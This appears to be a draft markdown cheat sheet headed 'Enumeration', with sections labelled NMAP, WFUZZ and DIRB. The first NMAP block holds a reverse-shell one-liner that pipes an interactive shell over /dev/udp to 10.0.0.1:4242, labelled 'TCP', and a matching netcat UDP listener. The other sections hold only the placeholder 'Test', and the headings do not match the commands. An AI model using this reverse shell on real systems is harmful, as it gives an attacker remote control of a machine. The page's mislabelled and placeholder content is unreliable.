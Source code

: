 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
    * [Bash TCP](#bash-tcp)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```
### WFUZZ
```
Test
```
### DIRB
```
Test
```


### NMAP
```
Test
```
